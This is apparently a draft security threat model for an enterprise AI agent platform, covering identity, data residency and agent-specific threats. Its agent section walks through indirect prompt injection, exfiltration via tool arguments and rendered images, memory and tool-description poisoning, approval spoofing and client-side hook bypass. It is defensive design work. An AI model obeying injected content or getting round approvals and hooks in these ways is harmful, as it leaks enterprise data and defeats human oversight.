

# Platform threat model and security architecture

> Phase 3 · Owner: security-reviewer · Topic: platform security (STRIDE + agent-specific) · Last updated: 2026-09-25
> Sources: `requirements/Ralysa_Spec.md` v0.3 (§4, §5, §6.2–6.6, §6.9–6.12, §6.14, §7.7, §8, §9, §14), `docs/product/prd.md` (G2 approved 2026-09-25 with conditions), `docs/market/regulation.md` (MA-301 to MA-310), `docs/market/summary.md` (R-4, R-5, R-9), Phase 0 briefs F-002, F-003 and F-004 (branch `docs/phase0-features`, brief-level approval pending), and the repository scaffold at commit `17a7322`.
> Status: **Draft for G3 review.** This is a design-level threat model. The repo has no application code yet, so most findings are about the design. The only code-level findings are on CI/build configuration (§5.8).

**Finding labels.** Every threat carries one of two labels:
- **[Confirmed]**: the gap or weakness can be seen in the current spec, PRD, brief or repository text. Each one cites where.
- **[Suspected]**: a plausible threat whose presence depends on design choices not made yet. It must be closed or ruled out in design (G4) or testing (G6).

Nothing was exploited or tested against any real system.

---

## 1. Scope and assumptions

### 1.1 In scope

- The whole platform as specified: three surfaces (CLI, Desktop, Web), the Agent Host (local and server mode), the Agent Protocol, the control plane (SSO, policy, approvals, memory, registries, audit), the Model Gateway, the MCP/Data Gateway, the Web Workspace Runtime, extraction/OCR, the plugin marketplace, skills, memory, and the platform stores (Postgres, Redis, object storage, vector store, Vault/KMS, tracing).
- Deployment models: customer-dedicated in-country cloud and on-prem with a local-model runtime (Phase 1, DV-1, R-4), air-gapped (Phase 4, Y1 target) and in-region multi-tenant SaaS (Phase 4, DV-15).
- The Phase 0 slice in detail: F-002 (SSO and control-plane skeleton), F-003 (local Agent Host and protocol core) and F-004 (Model Gateway v0).
- Ralysa's own software supply chain (CI, dependencies, release artefacts, update and licence channel).

### 1.2 Out of scope

- The internal security of the enterprise IdP, model providers, hyperscaler infrastructure and customer source systems. We model the trust we place in them, not their internals.
- Harmful-content safety of model output, unless it leads to tool misuse, data leakage or deception in approvals.
- Physical security, HR security and corporate IT. These fall under the ISO 27001 ISMS (REQ-099), not the product.
- Legal interpretation. Where a threat depends on a legal reading (for example whether masked data counts as PII under QCB Art. 21.4), it points to PRD OQ-2.

### 1.3 Assumptions

| # | Assumption | Source | Effect on the model |
|---|---|---|---|
| AS-1 | The first deployments are customer-operated: dedicated in-country cloud or on-prem, one organization per deployment. Multi-tenant SaaS comes in Phase 4 and is in-region only. | DV-1, DV-15, R-4, OQ-F002-4 | Cross-tenant threats matter from Phase 4. Cross-user and cross-department threats matter from Phase 1. |
| AS-2 | The Phase 0 environment handles only internal and synthetic T1 data. The Phase 1 pilot handles only T1/T2 data. T3 data arrives with the RA pack in Phase 2. | PRD A-5, F-004 governance | T3 controls must be complete before Phase 2, not before Phase 0. |
| AS-3 | Pilot IdP is Microsoft Entra ID. | PRD A-1 | Entra-specific claim handling (group overage, tenant pinning, Conditional Access) is in scope. |
| AS-4 | The Agent Host is built on the Claude Agent SDK (TypeScript). | Spec D2 | SDK defaults and built-in tools are part of the attack surface. |
| AS-5 | The Model Gateway may be LiteLLM Proxy behind a custom policy layer. The final choice is an ADR at G3. *(G3 consistency review: ADR-0014 proposes this and adopts every TM-37 constraint as a release gate.)* | Spec §6.5.4, F-004 | LiteLLM's security history is relevant (TM-37). |
| AS-6 | **Anything on a user's device is untrusted by the server.** This includes the local Agent Host, its hooks and its config. | Spec D3, F-003 "Out of scope" | Every control that must hold against a malicious insider has to run server-side. |
| AS-7 | The IdP is trusted to authenticate users and enforce MFA. IdP administrators and SCIM tokens can still be abused. | Spec §8 | Covered in TM-49. |
| AS-8 | Model providers used for T1/T2 are under enterprise terms with no training on customer data, and with zero or limited retention where available. | To verify per provider | If this is false, T1/T2 routing policy must tighten. |
| AS-9 | Policy engine (OPA or Cedar) and control-plane language are not decided yet. *(G3 consistency review: Proposed as Cedar, ADR-0002, and TypeScript, ADR-0001; both await G3.)* | Spec §15 Q3, Q6 | Recommendations are engine-neutral. |

### 1.4 External references (accessed 2026-09-25)

- Claude Agent SDK, filesystem settings not loaded unless `settingSources` is set: [Use Claude Code features in the SDK](https://platform.claude.com/docs/en/agent-sdk/claude-code-features), [Migration guide](https://platform.claude.com/docs/en/agent-sdk/migration-guide)
- LiteLLM PyPI supply-chain compromise, 2026-03-24 (litellm 1.82.7 and 1.82.8 stole credentials): [LiteLLM security update](https://docs.litellm.ai/blog/security-update-march-2026), [Trend Micro analysis](https://www.trendmicro.com/en_us/research/26/c/inside-litellm-supply-chain-compromise.html)
- LiteLLM CVE-2026-42208, SQL injection on the key-verification path (1.81.16 to 1.83.6, fixed in 1.83.7): [LiteLLM advisory](https://docs.litellm.ai/blog/cve-2026-42208-litellm-proxy-sql-injection). Sysdig reports exploitation attempts soon after disclosure (secondary source): [Sysdig](https://www.sysdig.com/blog/cve-2026-42208-targeted-sql-injection-against-litellms-authentication-path-discovered-36-hours-following-vulnerability-disclosure)
- Device-code phishing (STORM-2372) and blocking the flow with Conditional Access: [Microsoft Learn](https://learn.microsoft.com/en-us/entra/identity/conditional-access/policy-block-authentication-flows), [Huntress](https://www.huntress.com/blog/tradecraft-tuesday-device-code-phishing-explained)

---

## 2. System overview

### 2.1 Data-flow diagram with trust boundaries

Dashed arrows carry **untrusted content** or supply-chain input.

### 2.2 Trust-boundary crossings and the control that must sit on each one

| Crossing | Data | Control that must be server-side | Key threats |
|---|---|---|---|
| TB-1 → TB-2/TB-3 (sign-in) | Auth codes, device codes, tokens | IdP MFA and Conditional Access; control-plane token issuance | TM-01, TM-02, TM-40 |
| TB-1 → TB-3 (local host → gateways) | Prompts, tool results, local file content, user token | Gateways re-check everything; the host is only an advisory control | TM-07, TM-08, TM-21 |
| TB-4 → TB-3 (sandbox → gateways) | Same as above, plus code execution | Network policy, egress proxy, credential broker | TM-29, TM-31 |
| TB-3 → TB-5 (gateway → external model) | Prompts that may hold T1/T2 data | Tier routing, masking, record of processing geography | TM-19, TM-20, TM-21 |
| TB-3 → TB-6 (gateway → enterprise systems / remote MCP) | Tool arguments, OBO tokens | Per-call policy, approvals, residency check on remote MCP | TM-10, TM-27, TM-42 |
| TB-6/TB-7 → TB-3 (content returning) | Email, documents, web pages, DB rows, tool descriptions | Mark as untrusted; injection scan; taint tracking | TM-09, TM-14, TM-15 |
| TB-7 → TB-3 (supply chain) | Plugins, skills, MCP servers, dependencies, images | Signing, admin approval, permission manifest, SBOM | TM-41, TM-43, TM-44 |
| TB-3 → user surfaces (rendering) | Model and tool output | Safe rendering (no remote fetch, sanitisation, escaping of terminal control sequences) | TM-11, TM-35, TM-50 |

---

## 3. Assets

### 3.1 Asset register

Tier is the default data-sensitivity tier from spec §7.7 / REQ-094. "Inherits" means the asset takes the tier of the most sensitive content it holds.

| ID | Asset | Main property | Default tier | Notes |
|---|---|---|---|---|
| AS-01 | Model-provider credentials (org, department and personal keys; service accounts; IAM roles) | C, I | Secret (outside tiers) | Vault only (REQ-095). Must never reach clients, prompts, logs or the DB. |
| AS-02 | Token-signing keys; IdP client secret; SCIM token; licence-signing key | C, I | Secret | Whoever holds these can impersonate any user or forge a licence. |
| AS-03 | User tokens: Ralysa access and refresh tokens, OBO and downstream tokens (`UserConnection.token_ref`), git OAuth tokens | C | Secret | Held on laptops (CLI/Desktop) and in sandboxes. |
| AS-04 | Enterprise business data reached through connectors (DB rows, mail, files, tickets, CDRs, KYC) | C, I | T1–T3 by source/department | The main exfiltration target. RA, Fraud, HR, SOC and Care are T3. |
| AS-05 | Prompts, completions, transcripts, artifacts, workspace volumes | C | Inherits | Stored server-side for Web. Stored locally for CLI/Desktop. |
| AS-06 | Memory (org, department, project, personal) | C, I | Inherits (org/dept memory is usually T1–T2) | Integrity matters: memory is loaded as trusted context (TM-15). |
| AS-07 | Policies, profiles, group→profile mappings, tier↔classification mapping, approval rules | I | T2 | Changing these changes what everyone can do. |
| AS-08 | Audit log (incl. inference region, approvals, admin actions) | I, A, C | T2 (metadata); inherits if prompts are stored | Regulator evidence (REQ-070/071). Must be tamper-evident. |
| AS-09 | Approval requests and payloads | I | Inherits | Integrity of what gets approved is the key to side-effect control. |
| AS-10 | Skills, plugins, prompt registry, MCP registry entries, tool schemas | I | T1 | Supply-chain integrity. They are loaded into agent context. |
| AS-11 | PII-masking re-identification maps | C | T3 | Anyone holding the map can undo masking. |
| AS-12 | Traces and operational logs (OpenTelemetry, LLM tracing) | C | Inherits | Often forgotten as a copy of prompts (TM-24). |
| AS-13 | Usage, budget and billing records | I | T2 | Fraud or denial-of-wallet target. |
| AS-14 | Exports: evidence pack, exit bundle, audit export, Data/Docs exports | C | Inherits | Bulk exfiltration channel (TM-26). |
| AS-15 | Indexes and vector store (Phase 3) | C | Inherits source | ACL drift (TM-28). |
| AS-16 | Release artefacts: images, Helm charts, update bundles, licence files | I | T1 | Customer-operated and air-gapped installs trust them (TM-44). |
| AS-17 | Platform availability: kill-switch, audit path, gateways | A | n/a | Fail-closed audit links availability to security (TM-46). |

### 3.2 Tier to classification mapping (proposed default)

The platform admin configures this mapping. It is versioned and audited (REQ-094(c), DV-13). The table below is the **proposed default** for Qatar tenants. The NCSA level names C1–C3 are **to verify** against the NCSA National Data Classification Policy v3.0 (MA-303). NDMO mapping is needed before KSA entry.

| Ralysa tier | Qatar NCSA level (default) | Allowed inference by default | Deployment | Other defaults |
|---|---|---|---|---|
| T1 Standard | C0 (public), C1 | Local; in-country hosted; foreign hosted only if the tenant's policy allows (PRD A-8) | Any | Normal logging, standard models |
| T2 Confidential | C2 | Local or in-country. Foreign hosted only after masking **and** a counsel answer to PRD OQ-2. Bank tenants default to in-country or local. | Dedicated, on-prem, air-gapped | PII masking, approvals on external actions, redacted prompt storage |
| T3 Restricted | C3 | **Local or in-country only. Non-local calls are denied by default** (REQ-028). | Dedicated, on-prem, air-gapped | Replicas only, strict masking, full audit, no personal keys, no Desktop/CLI local tools unless on a managed device (SR-24) |
| (no tier) | C4 (top secret) | Local only | **Air-gapped only** (REQ-094(d), REQ-103) | A C4 source cannot be connected in a non-air-gapped deployment |

---

## 4. Entry points

| ID | Entry point | Exposed by | Caller trust | Phase |
|---|---|---|---|---|
| EP-01 | OIDC redirect/callback and PKCE endpoints | Control plane | Anonymous → IdP-asserted | 0 |
| EP-02 | Device-authorization endpoints (user code, polling) | Control plane or IdP | Anonymous | 0 |
| EP-03 | Token refresh, sign-out, revocation | Control plane | Holder of a refresh token | 0 |
| EP-04 | Agent Protocol endpoint of the **local** host (WebSocket or IPC) | Local Agent Host | Local processes and browser pages on the same device | 0 |
| EP-05 | Model Gateway API (streaming) | Model Gateway | Holder of a user token (local host) or service identity (server host) | 0 |
| EP-06 | Audit ingestion and audit query APIs | Control plane | Services and, in F-003, the local host | 0 |
| EP-07 | MCP/Data Gateway API | MCP Gateway | User token via host | 1 |
| EP-08 | Control-plane REST APIs for `/me`, `/dept`, `/admin`, approvals, access requests, memory, registries | Control plane | Authenticated users and admins | 1 |
| EP-09 | Web IDE and Console web app; deep links and one-time login code (REQ-069) | Web | Browser | 1 |
| EP-10 | Agent Protocol for the **server** host (`session.*`, `approval.respond`, `skill.invoke`) | Server Agent Host | Browser | 1 |
| EP-11 | File upload (chat attachments, Docs workspace) | Web / server host | Authenticated user; content untrusted | 1 |
| EP-12 | Content from connectors: mail, documents, tickets, DB fields, web pages, CDRs | MCP Gateway → model context | **Untrusted third parties** (indirect prompt injection) | 1 |
| EP-13 | MCP server responses and tool descriptions/schemas | MCP Gateway | Semi-trusted to untrusted | 1 |
| EP-14 | Local stdio MCP servers and local filesystem (including repos with `.claude/`, `.mcp.json`, README instructions) | Local host | Untrusted | 0–1 |
| EP-15 | Model output (text, tool-call arguments, markdown, terminal escape sequences) | Model Gateway → surfaces | **Untrusted.** It can be steered by injected content. | 0 |
| EP-16 | Memory tool writes | Control plane memory service | Agent (may be steered) | 1 |
| EP-17 | Plugin, skill and MCP-server package install and update | Control plane marketplace | Publishers; admin-approved | 1–2 |
| EP-18 | Admin configuration of model endpoints and keys (custom OpenAI-compatible URLs) | Control plane / Model Gateway | Platform and department admins; users for personal keys | 1–2 |
| EP-19 | SCIM 2.0 endpoint | Control plane | Holder of the IdP SCIM token | 2 |
| EP-20 | Sandbox terminal (xterm.js), egress, git OAuth callback | Workspace runtime | User and agent code | 2 |
| EP-21 | Extraction/OCR input (PDF, Office, eml/msg, archives, images) | Extraction service | Untrusted | 2 |
| EP-22 | Licence file import, licence sync, update bundles | Control plane / installer | Ralysa vendor channel | 1–4 |
| EP-23 | CI/CD pipeline, package registries, GitHub Actions | Ralysa build | Contributors and third-party packages | 0 |
| EP-24 | SIEM export (outbound) | Audit service | n/a (outbound data flow) | 4 |

---

## 5. Threat table

**Scales.** Likelihood (L): **H** means expected without controls, or a technique already in active use; **M** means plausible for a motivated insider or attacker; **L** needs significant capability. Impact (I): **H** means T2/T3 exposure, cross-user or cross-tenant leakage, a regulator-reportable event, or platform compromise; **M** means limited to one user's scope or recoverable; **L** means nuisance.

STRIDE letters: S spoofing, T tampering, R repudiation, I information disclosure, D denial of service, E elevation of privilege. **AG** marks agent-specific threats.

### 5.1 Identity, authorization and privilege escalation

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-01 | **[Suspected]** S: **Device-code phishing.** An attacker starts `/login`, sends the user code to a victim, and the victim completes MFA. The attacker receives Ralysa tokens with the victim's groups. | Control plane (F-002), CLI (F-005) | H | H | REQ-001(a), REQ-016; F-002 AC-2 refuses expired or reused codes | No requirement on code lifetime, on showing the requesting client and location, or on Conditional Access. If Ralysa brokers the device flow itself, IdP Conditional Access rules for the device-code flow may not apply. | Prefer the IdP-native device flow so tenant Conditional Access applies. Code lifetime ≤ 10 min. The confirmation page shows the client, IP and geo. Alert when the polling IP differs from the approving IP. Offer loopback + PKCE as the CLI default, and a per-tenant switch to disable device code. |
| TM-02 | **[Confirmed]** E: **Group mapping by display name, group overage, issuer confusion.** Spec §6.4.4 matches `groups: ["Finance"]` by name. Entra group names are not unique, and self-service group creation can mint a matching name. Above about 200 groups the JWT carries no `groups` claim (overage). A multi-tenant app registration can accept tokens from other tenants. | Control plane authN/authZ (F-002, F-006) | M | H | REQ-019, F-002 AC-1, AC-5, AC-7 | Nothing requires immutable group IDs, overage handling or tenant pinning. | Map by immutable group object ID; the UI shows names only for display. On overage, resolve membership through Graph, and fail closed if that fails. Pin `iss` and `tid` to the configured tenant. Apply the same rules to Google, Okta and others. |
| TM-03 | **[Suspected]** S/E: **Token audience confusion and passthrough.** A token for the Model Gateway is replayed to the MCP Gateway or other services, or a Ralysa token is forwarded to a third-party MCP server, which then replays it. | All services, MCP Gateway | M | H | F-002 AC-7 (audience check), REQ-035 (OBO) | No rule for one audience per service, no sender constraint, and no explicit ban on token passthrough to MCP servers (the MCP authorization spec forbids passthrough). | One audience per service. Service-to-service calls use mTLS or workload identity. Downstream access uses only OBO / token exchange. Never forward Ralysa tokens. Consider DPoP for client tokens. |
| TM-04 | **[Confirmed]** E/I: **IDOR on control-plane APIs.** Examples: `session.resume` on another user's session, approving an `ApprovalRequest` by ID, reading another user's memory, connections or access requests, or querying audit outside your scope. | Control plane, server host (F-016, F-017, F-018) | M | H | REQ-013(a), REQ-067(a), REQ-068(a) | There is no general requirement for object-level authorization. Isolation is only stated for sessions and department views. | Authorize every API call through the PDP on (subject, action, resource with `org_id`, `dept_id`, owner). Enforce `org_id` with Postgres row-level security. Bind sessions to the user. Build an automated IDOR test matrix per endpoint (G6). Unguessable IDs are not a control. |
| TM-05 | **[Confirmed]** E: **Department-admin escalation.** A department admin grants beyond the ceiling, approves their own grants, adds a department key or plugin that weakens T3 routing, or plants instructions in department memory that reach every department user. | Control plane `/dept` (F-029) | M | H | REQ-068(b)(c)(d), REQ-023(e), REQ-083(b) | Department memory (REQ-051) and department plugins are not treated as ways to inject into other users' agents. | Enforce ceilings in the PDP, not the UI. Department plugins come only from the platform-admin-approved list. Department-memory edits are diffed, audited and shown to users as "department note" data, not system instructions (SR-17). |
| TM-06 | **[Suspected]** E: **Policy engine fails open or policy authoring errors.** Examples: an unmatched user gets default-allow; deny-overrides is implemented wrongly; the PDP is unreachable and the gateways allow; a 60 s propagation window after a revocation. | PDP, gateways (F-006) | M | H | REQ-019(a), REQ-020(c), REQ-021(b) | Default-deny and fail-closed on PDP errors are not stated. There is no policy test harness. | Default deny. Gateways fail closed when the PDP is unavailable, and cache only allow-decisions with a short TTL. Policy unit tests and an effective-permission diff run at save. Two-person approval for changes to T3 profiles and admin mappings. |
| TM-07 | **[Confirmed]** S/T/R: **Client-side enforcement bypass on the local host.** A user or malware patches the CLI/Desktop Agent Host to ignore tool toggles, hooks, redaction, working-folder scope and approvals, and to skip audit of local tool calls. Spec §6.6.1 says local stdio MCP servers are "still policy-checked by hooks", which run inside this untrusted host. F-003 "Out of scope" accepts the residual risk. | Local Agent Host (F-003, F-015) | M | H (T2/T3) / M (T1) | REQ-021(a), F-003 AC-5 (local config cannot enable tools) | Several controls exist **only** in the host: pre-model redaction hook, dangerous-command block, stdio MCP policy, approval of local side effects, local tool audit. | Classify every control as *server-enforced* or *client-assisted* (SR-01). Masking, tier routing, label blocks and T3 deny run in the gateways. Mark local tool audit `attestation=client`. Deny local stdio MCP and local tools for T2/T3 profiles unless the device is managed and compliant (IdP Conditional Access device claims). |
| TM-08 | **[Confirmed]** E/I: **Session tier downgrade.** No REQ defines how the gateway learns a request's tier. If the tier comes from the user's department, a T1/T2 user who reads a T3 source (for example a shared SharePoint file, or a T3 table they can reach) sends it to a non-local model. If the host declares the tier, it can lie. | Model Gateway, MCP Gateway, control plane (F-008, F-009) | H | H | REQ-028, REQ-094(b), REQ-086(c) | REQ-028 says what happens per tier but not how the tier is decided. | Keep a server-side **session classification high-water mark** (SR-02): max(department tier, profile floor, tier/label of every source the MCP Gateway returned, labels of uploaded files). The MCP Gateway raises it and the Model Gateway reads it by `session_id`. It never decreases, including across compaction. Requests without a known server session get the profile's maximum tier. |
| TM-49 | **[Suspected]** E: **IdP-side takeover of admin groups.** An attacker with IdP admin rights, a stolen SCIM token or a compromised helpdesk adds themselves to the platform-admin group and gains full control. | Control plane, SCIM (F-002, F-030) | L | H | REQ-017(d), REQ-018(c), REQ-067(a) | No step-up auth for admin actions and no alert on admin-group changes. | Require phishing-resistant MFA for admins (Conditional Access authentication strength). Step-up for sensitive admin actions. Alert on admin-group membership changes. SCIM cannot grant platform-admin; that needs in-product approval by an existing admin. |

### 5.2 Prompt injection and tool abuse (agent-specific)

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-09 | **[Confirmed]** AG/E: **Indirect prompt injection steering side-effecting tools.** Email, documents, web pages, ticket text or DB fields tell the agent to send, share, update or write. Spec §14 rates this High. | Agent Host, MCP Gateway (F-010) | H | H | REQ-063, REQ-060, REQ-061, REQ-062, REQ-022 | Approval gates cover declared side-effect classes only. Nothing links "untrusted content is in context" to tighter gating. Approval fatigue is not addressed. | Taint-aware gating (SR-13): once untrusted content is in the session, every tool that can send data out needs approval or runs in a restricted mode. Spotlight or delimit tool results. Rate-limit approvals and show destination and data classification on each one. The red-team set from REQ-063(a) must include Arabic and mixed-direction payloads. |
| TM-10 | **[Confirmed]** AG/I: **Exfiltration through arguments of "auto" tools.** Examples: `web_fetch` URLs carrying data in the query string (spec §6.4.4 sets `web_fetch: allow` for a T2 Finance profile); search queries; `calendar.create`/`update` inviting an external attendee (not classified in §6.12.2); ticket fields in external systems; DNS lookups from the terminal. | MCP Gateway, Agent Host | H | H | REQ-060(a) (read/search auto), REQ-014(c) (sandbox egress) | Read/search/draft run automatically, but these tools can carry data out. No egress DLP on tool arguments. | Treat `web_fetch` as egress: off by default for T2/T3; domain allow-list; GET only; no context-derived query strings once untrusted or T2+ data is present. Send it through an egress proxy in the MCP Gateway that scans URLs and bodies. Classify external calendar attendees as "share externally". |
| TM-11 | **[Confirmed]** AG/I: **Exfiltration through rendered output.** Markdown images (``), auto-loaded links, HTML, SVG, Mermaid, or remote templates and images inside exported DOCX/PDF leak data as soon as they render. No REQ covers safe rendering. | Web/Desktop chat renderer (Streamdown), tool cards, Docs preview, exports (F-015, F-016, F-026) | H | H | None | Missing entirely. | SR-14: never auto-fetch remote resources. Block external images or route them through an allow-listed proxy that strips query strings. CSP `img-src 'self' data: blob:` and a tight `connect-src`. No raw HTML. Show the full URL and warn on click. Exports embed no remote references. |
| TM-50 | **[Suspected]** AG/S: **Terminal escape-sequence injection in the CLI.** Model or tool output with ANSI/OSC sequences hides text, forges an approval prompt, writes to the clipboard (OSC 52) or plants deceptive hyperlinks (OSC 8). | CLI (F-005, F-017) | M | M | None | Missing. | Strip or escape C0/C1 control characters and OSC sequences in untrusted output before rendering. Draw approval prompts from the canonical payload with a visual style that output cannot imitate. |
| TM-12 | **[Confirmed]** S/T/E: **Approval spoofing and payload swap.** Spec §6.2.2 routes `approval.respond` from the client to the host. A local host is untrusted (AS-6), so a modified host can approve itself or swap the payload after approval. | Agent Protocol, control plane approvals, MCP Gateway (F-010, F-017) | M | H | REQ-062(b) hash match, (c) re-check on edit, (e) no self-approval | Nothing says the **executing gateway** verifies a server-issued approval. | SR-11: approvals are control-plane objects. After the approver decides in a server-rendered UI, the control plane issues a signed, single-use grant bound to session, tool, canonical payload hash, approver and expiry. The MCP Gateway refuses side-effect calls without a valid grant. Step-up re-authentication for the highest-risk classes. |
| TM-13 | **[Suspected]** AG/S: **Approval deception.** Bidi override characters (U+202E), Arabic/Latin homoglyphs, zero-width characters, truncated recipient lists, hidden attachments, or an agent summary that differs from the real payload make users approve something else. The RTL product makes this more likely. | Approval UI (F-010, F-021) | M | H | REQ-062(b)(g) | The approval card content is not specified. | SR-12: render the canonical payload, not the agent's summary. Make bidi and zero-width characters visible. Show every recipient with external domains highlighted. List attachments with their classification. Show a diff for edits. |
| TM-14 | **[Suspected]** AG/T: **Tool-description poisoning and rug pull.** MCP tool descriptions carry hidden instructions, or a server changes its tool metadata after approval. Deferred loading (REQ-055) fetches schemas at first use, after review. A server can also shadow another's tool name (for example a second `mail.send`). | MCP Gateway, registry (F-009, F-020) | M | H | REQ-033(b) version approval | A version pin does not pin the tool metadata the server returns at runtime. | The registry stores a hash of the tool list, schemas and descriptions at approval. The gateway blocks on drift until re-approved. Namespace tool names per server. Limit and scan description length. |
| TM-15 | **[Confirmed]** AG/T: **Memory poisoning (persistent injection).** Injected content makes the agent write instructions into personal or project memory, which later sessions load. Org and department memory sit in the cached, highest-trust prefix (spec §6.11.2). REQ-050 filters PII and credentials, not instructions. | Memory service (F-019, F-030) | M | H | REQ-049(c)(d), REQ-050 | No provenance and no confirmation for agent-initiated writes. Nothing states that the agent cannot write org or department memory. | SR-17: store provenance (session, trust level) on every entry. Writes from turns with untrusted content need user confirmation. The agent tool cannot write org or department scope. Memory is presented to the model as quoted data with provenance. Users can review memory. |
| TM-16 | **[Suspected]** AG/T: **Laundering through compaction and subagents.** A compaction summary drops the "untrusted" marker so injected text returns as trusted narrative. Subagent conclusions return to the parent without provenance. | Agent Host (F-020, F-030) | M | M | REQ-056(b), REQ-057(a) | Provenance through compaction is not specified. | Keep taint flags through compaction. The session's untrusted flag and tier high-water mark are sticky. A subagent's tool set is at most its parent's, and the same gateways and hooks apply. |
| TM-17 | **[Suspected]** E/I: **SQL tool abuse.** Agent-generated SQL (possibly injected) gets around allowed-table checks via views, CTEs or functions, or uses side-effect and network functions: Postgres `COPY … TO PROGRAM`, `dblink`, `lo_export`; SQL Server `xp_cmdshell`, `OPENROWSET`, linked servers; Oracle `UTL_HTTP`, `DBMS_LDAP`. | MCP Gateway DB connectors (F-009) | M | H | REQ-035, REQ-037(a)(d) | If table allow-lists are enforced by parsing SQL, they can be bypassed. Per-user DB roles may hold more rights than policy grants. | SR-18: enforce at the DB privilege layer. Read-only transactions. Roles have SELECT only on allowed objects. Revoke network and extended procedures. Statement timeouts. Bind to replicas only. SQL parsing is a secondary check. |
| TM-18 | **[Suspected]** D: **Runaway agent / denial of wallet.** Injection loops, recursive subagents, very large queries, token burn. | Agent Host, gateways (F-007, F-014) | M | M | REQ-079 (caps, soft/hard), REQ-031 (rate limits), REQ-064 (kill-switch), REQ-074 | No per-session limits on iterations or tool calls. | SR-19: maximum turns and tool calls per session and per minute. Anomaly alert. Kill-switch state checked on every model and tool call. |

### 5.3 Data leakage, residency and cross-tenant exposure

| ID | Threat | Component | L | I | Existing / planned control | Gap | Recommendation |
|---|---|---|---|---|---|---|---|
| TM-19 | **[Confirmed]** I: **T3 data reaching non-local models through side paths.** Examples: size-based routing for titles and summaries (REQ-057), compaction calls, the request-refinement step (REQ-058(e)), LLM-based PII or injection classifiers, embeddings for indexing (REQ-044), cloud OCR, eval runs on production data. If these are built inside other services, they skip the Model Gateway. | All services that call models | M | H | REQ-028, REQ-057(b), REQ-042(e) | REQ-028 covers "calls" but does not require that *all* inference, including internal and auxiliary calls, goes through the gateway. | SR-03: every model, embedding, OCR and classifier call goes through the Model Gateway with the session's tier. A CI rule bans provider SDKs outside `services/model-gateway`. Network policy blocks provider egress from every other workload. |
| TM-20 | **[Confirmed]** I/R: **Inference region misstated.** The gateway records the configured endpoint region while the provider processes elsewhere: Bedrock global cross-region inference for Claude in the Middle East, Azure Global/Data Zone deployment types, Vertex global endpoints, or an Anthropic API with no region guarantee (MA-302). The regulator evidence pack (REQ-070(c)) would then be false. | Model Gateway, model registry (F-004, F-007, F-008) | H | H | REQ-028(d), REQ-032(c), F-004 AC-9 | F-004 AC-9 proves traffic reaches the configured endpoint, not where inference happens. | SR-04: the model registry stores **processing geography** per deployment type, with vendor evidence and a date. Audit records `endpoint_region` and `processing_geography` separately. Global, cross-region and data-zone types are denied for T2/T3 unless an audited exception exists. Re-verify quarterly. |
| TM-21 | **[Suspected]** I: **PII masking missed or bypassed.** Arabic name variants and transliteration; QID/IBAN formats; PII inside images or PDFs sent natively to multimodal models (text masking cannot see it); base64 content; JSON tool results; masking done in the host (bypassable, TM-07). | Model Gateway, pre-model hook (F-008, F-010) | H | H | REQ-029 (recall ≥ 95 %), REQ-036(c), REQ-059 | Where masking runs, and how binary media is handled, is not specified. | SR-05: mask in the Model Gateway on the final provider-bound payload, including `tool_result` blocks. For T2+ to non-local models, block images and PDFs or convert them (OCR → mask → text). Fail closed when the detector errors. Measure per language. |
| TM-22 | **[Suspected]** I: **Masking re-identification map leaks.** Unmasking outputs needs a token→value map. Stored carelessly, it is a clean PII index, and it may end up in logs or cross sessions. | Model Gateway | M | H | REQ-029 ("unmasking only where policy allows") | Where the map lives and how long it lasts are not specified. | Keep it in-region, per session, encrypted, with a session TTL. Never send it to a model or write it to logs. Unmask only in the rendering path, for authorized viewers. |
